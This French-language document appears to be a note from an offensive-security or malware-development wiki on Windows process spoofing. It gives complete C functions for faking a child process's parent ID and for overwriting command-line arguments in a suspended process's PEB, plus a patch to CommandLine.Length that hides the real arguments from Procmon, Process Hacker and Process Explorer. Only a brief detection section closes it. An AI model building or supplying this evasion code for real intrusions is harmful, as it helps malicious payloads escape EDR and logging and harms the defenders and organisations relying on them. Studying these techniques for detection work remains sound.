


# Spoofing de processus

Le spoofing de processus regroupe les techniques qui consistent à **falsifier les métadonnées** d'un processus nouvellement créé afin de masquer son véritable auteur. Deux axes complémentaires sont traités ici : le spoofing du **Parent Process ID (PPID)**, qui falsifie la lignée du processus, et le spoofing des **arguments de ligne de commande**, qui dissimule les commandes réellement exécutées. Tous deux visent à contrer la surveillance des relations parent-enfant et la journalisation des commandes.

## Spoofing de PPID

Les solutions de sécurité s'intéressent fortement aux relations parent-enfant anormales : un traitement de texte qui lance `cmd.exe` trahit généralement une macro malveillante. Le spoofing de PPID consiste à **altérer le PPID** du processus fils pour lui attribuer un autre parent, de préférence un processus système légitime. Le lien avec le véritable parent disparaît alors de la vue des outils de surveillance.

### Liste d'attributs

La technique repose sur la manipulation de la **liste d'attributs** d'un processus, une structure qui décrit un ensemble de propriétés (priorité, affinité CPU, espace d'adressage, processus parent, etc.). Le processus est créé via `CreateProcess` avec le drapeau `EXTENDED_STARTUPINFO_PRESENT`, qui autorise une configuration étendue au moyen de la structure `STARTUPINFOEXA`.

```c
typedef struct _STARTUPINFOEXA {
  STARTUPINFOA                 StartupInfo;
  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList;   // liste d'attributs
} STARTUPINFOEXA, *LPSTARTUPINFOEXA;
```

- `StartupInfo` : seule la taille (`cb`) doit être renseignée, à `sizeof(STARTUPINFOEX)`.
- `lpAttributeList` : liste d'attributs construite avec `InitializeProcThreadAttributeList`.

### Construction de la liste d'attributs

`InitializeProcThreadAttributeList` doit être appelée **deux fois** :

1. Premier appel avec `lpAttributeList = NULL`, uniquement pour obtenir la taille nécessaire dans `lpSize`.
2. Second appel avec un pointeur valide et la taille obtenue, qui initialise réellement la liste.

`dwAttributeCount` vaut `1`, puisque l'on n'ajoute qu'un seul attribut.

```c
BOOL InitializeProcThreadAttributeList(
  [out, optional] LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  [in]            DWORD                        dwAttributeCount,
                  DWORD                        dwFlags,        // NULL (reserve)
  [in, out]       PSIZE_T                      lpSize
);
```

On ajoute ensuite l'attribut avec `UpdateProcThreadAttribute`. C'est le drapeau `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` qui permet de spécifier le **processus parent**.

```c
BOOL UpdateProcThreadAttribute(
  [in, out]       LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,   // liste initialisee
  [in]            DWORD                        dwFlags,           // NULL (reserve)
  [in]            DWORD_PTR                    Attribute,         // PROC_THREAD_ATTRIBUTE_PARENT_PROCESS
  [in]            PVOID                        lpValue,           // handle du faux parent
  [in]            SIZE_T                       cbSize,            // sizeof(HANDLE)
  [out, optional] PVOID                        lpPreviousValue,   // NULL (reserve)
  [in, optional]  PSIZE_T                      lpReturnSize       // NULL (reserve)
);
```

### Logique d'implémentation



### Fonction `CreatePPidSpoofedProcess`

La fonction ci-dessous crée un processus dont le parent est usurpé. Elle prend en entrée un handle vers le **faux parent**, le nom de l'exécutable, et retourne le PID ainsi que les handles du processus et du thread créés.

```c
BOOL CreatePPidSpoofedProcess(IN HANDLE hParentProcess, IN LPCSTR lpProcessName,
                              OUT DWORD* dwProcessId, OUT HANDLE* hProcess, OUT HANDLE* hThread) {

    CHAR                        lpPath[MAX_PATH * 2];
    CHAR                        WnDr[MAX_PATH];
    SIZE_T                      sThreadAttList = NULL;
    PPROC_THREAD_ATTRIBUTE_LIST pThreadAttList = NULL;
    STARTUPINFOEXA              SiEx = { 0 };
    PROCESS_INFORMATION         Pi   = { 0 };

    // Taille de la structure
    SiEx.StartupInfo.cb = sizeof(STARTUPINFOEXA);

    // Chemin complet : %WINDIR%\System32\<processus>
    GetEnvironmentVariableA("WINDIR", WnDr, MAX_PATH);
    sprintf(lpPath, "%s\\System32\\%s", WnDr, lpProcessName);

    // 1er appel : echoue avec ERROR_INSUFFICIENT_BUFFER, fournit la taille
    InitializeProcThreadAttributeList(NULL, 1, NULL, &sThreadAttList);

    pThreadAttList = (PPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(
        GetProcessHeap(), HEAP_ZERO_MEMORY, sThreadAttList);

    // 2e appel : initialisation reelle
    InitializeProcThreadAttributeList(pThreadAttList, 1, NULL, &sThreadAttList);

    // Ajout de l'attribut : le faux parent
    UpdateProcThreadAttribute(pThreadAttList, NULL, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS,
                              &hParentProcess, sizeof(HANDLE), NULL, NULL);

    SiEx.lpAttributeList = pThreadAttList;

    CreateProcessA(
        NULL, lpPath, NULL, NULL, FALSE,
        EXTENDED_STARTUPINFO_PRESENT,   // controle etendu
        NULL, NULL, &SiEx.StartupInfo, &Pi);

    *dwProcessId = Pi.dwProcessId;
    *hProcess    = Pi.hProcess;
    *hThread     = Pi.hThread;

    DeleteProcThreadAttributeList(pThreadAttList);
    CloseHandle(hParentProcess);

    return (*dwProcessId != NULL && *hProcess != NULL && *hThread != NULL);
}
```

Le résultat est un processus (`RuntimeBroker.exe` dans la démonstration) qui semble engendré par un processus légitime (`svchost.exe`), alors qu'il a été lancé par le binaire malveillant.

### Indicateur du répertoire courant

Par défaut, le champ « Current Directory » du processus créé pointe vers le répertoire du binaire malveillant. C'est un **indicateur de compromission** évident. Le correctif consiste à renseigner le paramètre `lpCurrentDirectory` de `CreateProcess` avec un chemin discret, par exemple `C:\Windows\System32\`.

## Spoofing des arguments de processus

Le spoofing d'arguments dissimule la ligne de commande d'un processus nouvellement créé afin de lancer des commandes **sans les révéler** aux services de journalisation (Procmon, par exemple). L'objectif typique est d'exécuter `powershell.exe -c calc.exe` tout en faisant consigner une ligne de commande inoffensive.

### Où sont stockés les arguments

Les arguments résident dans la structure `RTL_USER_PROCESS_PARAMETERS`, elle-même référencée par le PEB du processus (voir [[Processus Windows]]). Le membre utile est `CommandLine`, de type `UNICODE_STRING`.

```c
typedef struct _RTL_USER_PROCESS_PARAMETERS {
  BYTE           Reserved1[16];
  PVOID          Reserved2[10];
  UNICODE_STRING ImagePathName;
  UNICODE_STRING CommandLine;   // arguments de la ligne de commande
} RTL_USER_PROCESS_PARAMETERS, *PRTL_USER_PROCESS_PARAMETERS;

typedef struct _UNICODE_STRING {
  USHORT Length;               // longueur effective en octets
  USHORT MaximumLength;
  PWSTR  Buffer;               // contenu texte
} UNICODE_STRING, *PUNICODE_STRING;
```

Les arguments sont accessibles en lecture comme chaîne large via `PEB->ProcessParameters.CommandLine.Buffer`.

### Principe de la technique

On crée le processus **suspendu** avec des arguments factices anodins. Avant de le reprendre, on écrase la chaîne `ProcessParameters.CommandLine.Buffer` par les vrais arguments. Les outils de journalisation qui lisent cette structure au démarrage consignent alors les arguments factices, tandis que le processus exécute en réalité le payload.

1. Créer le processus cible en état suspendu.
2. Obtenir l'adresse distante du PEB.
3. Lire la structure PEB distante.
4. Lire la structure `PEB->ProcessParameters` distante.
5. Écraser `ProcessParameters.CommandLine.Buffer` avec le payload réel.
6. Reprendre le processus.

> Contrainte impérative : la longueur des vrais arguments doit être **inférieure ou égale** à celle des arguments factices, sinon l'écriture déborde sur des octets voisins et fait planter le processus. Les arguments factices doivent donc être plus longs que les réels.

### Récupération de l'adresse du PEB distant

On utilise `NtQueryInformationProcess` avec le drapeau `ProcessBasicInformation` (syscall résolue par `GetModuleHandle` / `GetProcAddress`, comme dans [[Introduction aux syscalls]]), ce qui retourne une structure `PROCESS_BASIC_INFORMATION` contenant `PebBaseAddress`.

```c
typedef struct _PROCESS_BASIC_INFORMATION {
    NTSTATUS    ExitStatus;
    PPEB        PebBaseAddress;   // adresse du PEB distant
    ULONG_PTR   AffinityMask;
    KPRIORITY   BasePriority;
    ULONG_PTR   UniqueProcessId;
    ULONG_PTR   InheritedFromUniqueProcessId;
} PROCESS_BASIC_INFORMATION;
```

### Lecture du PEB et des paramètres

`ReadProcessMemory` est appelée **deux fois** :

- Une première fois avec `PebBaseAddress`, pour lire la structure `PEB`.
- Une seconde fois avec `pPeb->ProcessParameters`, pour lire `RTL_USER_PROCESS_PARAMETERS`.

Lors du second appel, on lit **plus** que `sizeof(RTL_USER_PROCESS_PARAMETERS)` (par exemple `+ 0xFF` octets) : la taille réelle de la structure dépend de la taille des arguments factices, et il faut être certain d'atteindre le pointeur `CommandLine.Buffer`.

```c
BOOL ReadFromTargetProcess(IN HANDLE hProcess, IN PVOID pAddress, OUT PVOID* ppReadBuffer, IN DWORD dwBufferSize) {

    SIZE_T sNmbrOfBytesRead = NULL;

    *ppReadBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwBufferSize);

    if (!ReadProcessMemory(hProcess, pAddress, *ppReadBuffer, dwBufferSize, &sNmbrOfBytesRead)
        || sNmbrOfBytesRead != dwBufferSize)
        return FALSE;

    return TRUE;
}
```

### Écriture des vrais arguments

On écrase `CommandLine.Buffer` avec `WriteProcessMemory`. La taille à écrire vaut la longueur de la chaîne multipliée par `sizeof(WCHAR)`, plus un octet pour le caractère nul.

```c
BOOL WriteToTargetProcess(IN HANDLE hProcess, IN PVOID pAddressToWriteTo, IN PVOID pBuffer, IN DWORD dwBufferSize) {

    SIZE_T sNmbrOfBytesWritten = NULL;

    if (!WriteProcessMemory(hProcess, pAddressToWriteTo, pBuffer, dwBufferSize, &sNmbrOfBytesWritten)
        || sNmbrOfBytesWritten != dwBufferSize)
        return FALSE;

    return TRUE;
}
```

### Fonction `CreateArgSpoofedProcess`

```c
BOOL CreateArgSpoofedProcess(IN LPWSTR szStartupArgs, IN LPWSTR szRealArgs,
                             OUT DWORD* dwProcessId, OUT HANDLE* hProcess, OUT HANDLE* hThread) {

    STARTUPINFOW                  Si = { 0 };
    PROCESS_INFORMATION           Pi = { 0 };
    PROCESS_BASIC_INFORMATION     PBI = { 0 };
    ULONG                         uRetern = NULL;
    PPEB                          pPeb = NULL;
    PRTL_USER_PROCESS_PARAMETERS  pParms = NULL;

    Si.cb = sizeof(STARTUPINFOW);

    fnNtQueryInformationProcess pNtQueryInformationProcess =
        (fnNtQueryInformationProcess)GetProcAddress(GetModuleHandleW(L"NTDLL"), "NtQueryInformationProcess");

    // Creation suspendue, avec les arguments factices anodins
    CreateProcessW(NULL, szStartupArgs, NULL, NULL, FALSE,
                   CREATE_SUSPENDED | CREATE_NO_WINDOW,
                   NULL, L"C:\\Windows\\System32\\", &Si, &Pi);

    // Obtention de l'adresse du PEB distant
    pNtQueryInformationProcess(Pi.hProcess, ProcessBasicInformation, &PBI,
                               sizeof(PROCESS_BASIC_INFORMATION), &uRetern);

    // Lecture du PEB
    ReadFromTargetProcess(Pi.hProcess, PBI.PebBaseAddress, &pPeb, sizeof(PEB));

    // Lecture de RTL_USER_PROCESS_PARAMETERS (avec marge pour atteindre CommandLine.Buffer)
    ReadFromTargetProcess(Pi.hProcess, pPeb->ProcessParameters, &pParms,
                          sizeof(RTL_USER_PROCESS_PARAMETERS) + 0xFF);

    // Ecriture des vrais arguments par-dessus les factices
    WriteToTargetProcess(Pi.hProcess, (PVOID)pParms->CommandLine.Buffer, (PVOID)szRealArgs,
                         (DWORD)(lstrlenW(szRealArgs) * sizeof(WCHAR) + 1));

    HeapFree(GetProcessHeap(), NULL, pPeb);
    HeapFree(GetProcessHeap(), NULL, pParms);

    // Reprise du processus avec les vrais arguments
    ResumeThread(Pi.hThread);

    *dwProcessId = Pi.dwProcessId;
    *hProcess    = Pi.hProcess;
    *hThread     = Pi.hThread;

    return (*dwProcessId != NULL && *hProcess != NULL && *hThread != NULL);
}
```

### Déroulement complet



## Contourner les outils d'analyse avancés

Procmon est trompé, mais des outils comme Process Hacker ou Process Explorer exposent encore les vrais arguments. La raison : ces outils lisent la ligne de commande **au moment de l'exécution** via `NtQueryInformationProcess`, et consultent donc directement le contenu courant de `CommandLine.Buffer`.

### Pourquoi le Buffer n'est pas suffisant

Ces outils ne se fient pas au caractère nul : la documentation Microsoft précise que `UNICODE_STRING.Buffer` peut ne **pas** être terminé par un nul. Par construction, ils lisent donc au maximum `CommandLine.Length` octets. En patchant cette longueur à une valeur plus petite que la taille réelle du tampon, on contrôle la portion du payload qui reste visible : on peut n'exposer que `powershell.exe` et cacher le reste.

### Patch de `CommandLine.Length`

Le code ci-dessous spoofe d'abord les arguments puis limite la longueur lue à celle de `L"powershell.exe"` :

```c
DWORD dwNewLen = sizeof(L"powershell.exe");

if (!WriteToTargetProcess(Pi.hProcess,
        ((PBYTE)pPeb->ProcessParameters + offsetof(RTL_USER_PROCESS_PARAMETERS, CommandLine.Length)),
        (PVOID)&dwNewLen, sizeof(DWORD))) {
    return FALSE;
}
```

L'astuce tient à l'usage de `offsetof` pour calculer l'adresse exacte du membre `Length` dans la structure distante, ce qui rend le patch indépendant de la disposition mémoire observée.

## Synthèse

| Technique | Cible du masquage | API principale | Indicateur restant |
|---|---|---|---|
| Spoofing de PPID | Relation parent-enfant | `UpdateProcThreadAttribute` (`PROC_THREAD_ATTRIBUTE_PARENT_PROCESS`) | Répertoire courant par défaut |
| Spoofing d'arguments | Contenu de la ligne de commande | `WriteProcessMemory` sur `CommandLine.Buffer` | Lecture par `NtQueryInformationProcess` |
| Patch de `CommandLine.Length` | Portion visible des arguments | `WriteProcessMemory` sur `CommandLine.Length` | Cohérence longueur / contenu |

## Détection

- Les EDR surveillent la création de processus avec `EXTENDED_STARTUPINFO_PRESENT` et l'usage de `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS`, ainsi que les incohérences entre le parent déclaré, le répertoire courant et le jeton utilisé.
- Les écritures croisées (`WriteProcessMemory`) vers la région du PEB d'un processus suspendu, en particulier vers `CommandLine.Buffer` ou `CommandLine.Length`, sont des signaux forts. Voir [[Mécanismes de détection]].
- La création d'un processus immédiatement suspendu puis reprit après modification mémoire (`CREATE_SUSPENDED` + `ResumeThread`) ressemble à d'autres schémas d'injection comme [[Injection APC et Early Bird]] et [[Détournement de threads]].
- Ces techniques se combinent naturellement avec [[Énumération des processus]] pour choisir le faux parent et avec [[NtCreateUserProcess]] pour des variantes de création plus discrètes.
